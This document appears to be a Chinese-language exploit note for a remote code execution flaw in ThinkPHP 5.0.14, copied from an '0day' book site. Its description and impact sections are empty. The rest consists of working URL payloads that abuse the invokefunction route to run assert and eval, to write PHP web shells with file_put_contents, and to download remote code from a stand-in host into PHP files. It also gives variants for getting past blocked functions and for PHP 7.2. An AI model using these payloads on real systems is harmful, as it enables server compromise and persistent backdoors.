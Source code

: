 # Thinkphp 5.0.14

> 原文：[http://book.iwonder.run/0day/Thinkphp/5.html](http://book.iwonder.run/0day/Thinkphp/5.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、常规命令

```
?s=index/think\app/invokefunction&function=&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php.jpg&vars[1][]=%3C?php%20phpinfo();?3E 
```

### 2、eval（''）和 assert（''）被拦截，命令函数被禁止

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo(); 
```

```
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js"))); 
```

### 3、基于 php7.2 环境下

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1 
```

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>
写进去发现转义了尖括号 
```

### 4、通过 copy 函数

```
 http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php 
```


